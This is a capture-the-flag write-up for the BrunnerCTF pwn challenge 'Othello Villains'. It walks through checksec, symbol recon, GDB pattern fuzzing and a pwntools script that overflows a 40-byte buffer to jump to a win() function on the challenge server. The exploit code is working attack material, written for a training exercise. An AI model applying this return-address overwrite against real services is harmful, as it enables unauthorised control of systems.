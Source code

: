 ```yaml
---
description: 'Difficulty: Easy Author: olexmeister'
---
```


# Othello Villains —  Pwn

## Othello Villains — Pwn Writeup (BrunnerCTF)

**Category:** Pwn (Buffer Overflow)\
**Difficulty:** Easy\
**Author:** olexmeister

***

### 📜 Challenge Description

> The Othello villains stole our sacred Brunner recipe! Luckily, they are unable to write secure code. Retrieve the recipe from their (in)secure vault!

Service:

```bash
ncat --ssl othello-villains-ff676b52adca52ed.challs.brunnerne.xyz 443
```

We were given a 64-bit ELF binary:

```bash
$ file othelloserver
othelloserver: ELF 64-bit LSB executable, x86-64, dynamically linked, no PIE
```

Security check:

```bash
$ checksec --file=othelloserver
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    No PIE
```

🔑 Translation:

* **No canary** → free buffet for stack BOFs 🍝
* **NX enabled** → no stack shellcode; just pivot/jump to existing code
* **No PIE** → addresses are static (chef’s kiss)
* **Partial RELRO** → GOT shenanigans possible but unnecessary here

***

### 🔍 Recon

Find interesting functions:

```bash
$ nm othelloserver | grep -E 'main|win'
000000000040125b T main
00000000004012ae T win
```

Boom 💥 there’s a `win()` at `0x4012ae`. Almost certainly prints the recipe/flag. Plan: overflow → overwrite return address → land in `win()`.

***

### 🧪 Pattern Fuzzing (a.k.a. “I tried 80, it bricked but not the way I wanted”)

Goal: find the **exact offset** to RIP.

1. Generate a cyclic pattern (first attempt: 80 bytes):

```bash
$ python3 -c 'from pwn import *; print(cyclic(80))' > pattern80.txt
```

2. Run under GDB:

```bash
$ gdb ./othelloserver
(gdb) run < pattern80.txt
```

We get a segfault, but…

```gdb
(gdb) info registers rip
rip            0x4012ad            0x4012ad <main+82>
```

😬 RIP is still inside `main`, not `0x61...`. Translation: we **crashed before `ret`**, likely because our overflow clobbered a local pointer/length that got used, causing a bad access _inside_ `main`. We haven’t actually overwritten the saved RIP yet, so you won’t see the classic `0x61616161` in RIP.

#### 🔍 So why `x/gx $rsp`?

When RIP doesn’t show our neat pattern, we **peek at the stack** to verify our input actually landed there and to eyeball how far we are from the saved RIP:

```gdb
(gdb) x/40gx $rsp
0x7fffffffdbc8: 0x616c6161616b6161      0x00000027616d6161
...
0x7fffffffdc68: 0x00007ffff7dd9e25      0x000000000040125b
```

* You can **see the pattern bytes** (`0x61` = ‘a’) on the stack → overflow is real ✅
* You can also see nearby return addresses (e.g., `0x40125b`), helping you gauge roughly where the **saved RIP** will live.
* TL;DR: `x/gx $rsp` is your periscope — it proves you’re smashing the stack and helps you visualize the distance to the saved return address when the crash happens _before_ the `ret`.

> Pro-tip: When RIP isn’t overwritten yet, use smaller/larger patterns, or directly try common offsets for tiny 64-bit buffers (often **40**–**48** bytes).

***

### 🎯 Locking the Offset (the “aha!” step)

Instead of wrestling with `cyclic_find` on a 64-bit junk RIP (64-bit can include non-pattern high bytes), I tested the classic beginner offset:

* **Try `OFFSET = 40`** (very common for small stack buffers in 64-bit)
* If it fails, nudge ±8 bytes. In our case, **40 worked**.

(If you want to be fancy with `cyclic_find` on 64-bit, use `cyclic_find(value, n=8)`, or feed only the lower 4 bytes if high bytes are polluted.)

***

### 🚀 Final Exploit

Jump straight to `win()`:

```python
from pwn import *

io = remote('othello-villains-ff676b52adca52ed.challs.brunnerne.xyz', 443, ssl=True)

OFFSET = 40
WIN_ADDR = 0x4012ae

payload = b"A" * OFFSET + p64(WIN_ADDR)
io.sendline(payload)
io.interactive()
```

Run it and boom 💣 — control flow yeets into `win()` and the sacred Brunner recipe drops.

***

### 🧑‍🍳 Key Takeaways

* **Crash ≠ RIP control.** If you segfault inside `main`, you likely corrupted locals but haven’t hit the saved RIP yet.
* **Use `x/gx $rsp`** to confirm your pattern sits on the stack and to visualize proximity to the saved RIP.
* **Beginner offset heuristics**: small 64-bit buffers often need \~**40 bytes** to RIP. Try that early to save time.
* **No canary + No PIE** = easy mode: aim for `win()` before going full ROP saga.
* **64-bit `cyclic_find` gotchas**: pass `n=8` or use lower 4 bytes if the top bytes aren’t from the pattern.
